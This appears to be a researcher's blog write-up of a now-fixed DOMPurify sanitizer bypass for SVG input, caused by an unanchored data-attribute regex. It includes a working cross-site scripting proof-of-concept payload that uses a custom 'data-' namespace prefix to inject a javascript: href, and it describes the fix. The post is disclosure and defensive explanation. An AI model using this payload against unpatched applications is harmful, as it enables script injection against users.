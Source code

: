 +++
title = 'DOM Purify - dirty namespace bypass'
date = 2024-12-09T00:00:00+03:00
draft = false
+++

> The article is informative and intended for security specialists conducting testing within the scope of a contract. The author is not responsible for any damage caused by the application of the provided information. The distribution of malicious programs, disruption of system operation, and violation of the confidentiality of correspondence are pursued by law.

# Introduction

In this article, I want to talk about a method for bypassing DOMPurify when it is used for sanitizing SVG files, which I recently discovered.

# Purify ~~html~~ svg
In most cases, developers use DOMPurify to sanitize HTML files, and it looks something like this:

```javascript
DOMPurify.sanitize("<a href='https://x.com/slonser_'>slonser</a>")
// output: <a href="https://x.com/slonser_">slonser</a>
```
At the same time, developers sometimes use DOMPurify to sanitize SVG files, and in such cases, they might modify the PARSER_MEDIA_TYPE
```javascript
DOMPurify.sanitize(`<svg width="800" height="600" xmlns="http://www.w3.org/2000/svg"><text x="20" y="35">Click me!</text></svg>`, {PARSER_MEDIA_TYPE: 'application/xhtml+xml'})
// output: <svg height="600" width="800" xmlns="http://www.w3.org/2000/svg"><text y="35" x="20">Click me!</text></svg>
```
# Reading the code
Recently, I encountered this behavior again while analyzing an application and decided it would be fun to try to bypass it and achieve XSS.
I decided to review DOMPurify once more in search of any oddities and found a flaw that helped me:
```js
const DATA_ATTR = seal(/^data-[\-\w.\u00B7-\uFFFF]/);
```
It’s a regular expression that checks the validity of data attribute names (DOMPurify with flawed settings allows the insertion of attributes like `data-*`).
What shocked me was that the regular expression lacked an end-of-string anchor, meaning the attribute could look like this:
```js
/^data-[\-\w.\u00B7-\uFFFF]/.test('data-slonser<')
// output: true
```

# So... How to exploit this?
At first glance, this might seem useless. However, it allows you to insert a very important character, `:`, into a data attribute.
Since SVG files are essentially XML files with a defined namespace, it becomes possible to define custom namespaces and use their prefixes before an attribute.
```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:slonser="http://link_to_namespace">
<a slonser:attrbute="value"></a>
</svg>
```
At this point, I think many have already guessed the issue. We can create our own namespace with a name like `data-slonser` and use it to insert arbitrary attributes:
```js
console.log(DOMPurify.sanitize(`<svg width="800" height="600" xmlns="http://www.w3.org/2000/svg">
<a xmlns:data-slonser="http://www.w3.org/1999/xlink" data-slonser:href="javascript:alert(1)">
<text  x="20" y="35">Click me!</text>
</a>
</svg>`, {PARSER_MEDIA_TYPE: 'application/xhtml+xml'}));
```
Output:
```xml
<svg height="600" width="800" xmlns="http://www.w3.org/2000/svg">
<a xmlns:data-slonser="http://www.w3.org/1999/xlink" data-slonser:href="javascript:alert(1)">
<text y="35" x="20">Click me!</text>
</a>
</svg>
```
When such an SVG file is opened, and the user clicks on the text, our JavaScript will execute.


Many might also notice that the `<a>` tag contains an attribute `xmlns:data-slonser`, which is clearly unsupported and should have been sanitized. You may wonder why it is present in the output.
Indeed, it won’t be set by DOMPurify and won’t pass sanitization. So why does it appear in the output? The reason lies in this line:

```js
        if (namespaceURI) {
          currentNode.setAttributeNS(namespaceURI, name, value);
        } else {
```
When our attribute is associated with this namespace, `DOMParser` will automatically recognize and interpret it, ensuring that the tag is included in the attributes.

# Fix
I reported this issue to [cure53](https://x.com/cure53berlin), and he fixed it within an hour (As always, the fastest fixes in open source!).
The issue was resolved simply by adding two characters to the regex, which now looks like this:
```
/^data-[\-\w.\u00B7-\uFFFF]+$/
```

## P.S.
Thanks to the DOMPurify developers for the best experience, as always. I hope this will be useful to someone. Also, it's possible that this issue affects custom tags, but I haven't seen them used in the context of SVG, so I didn't check.
Thank you for reading!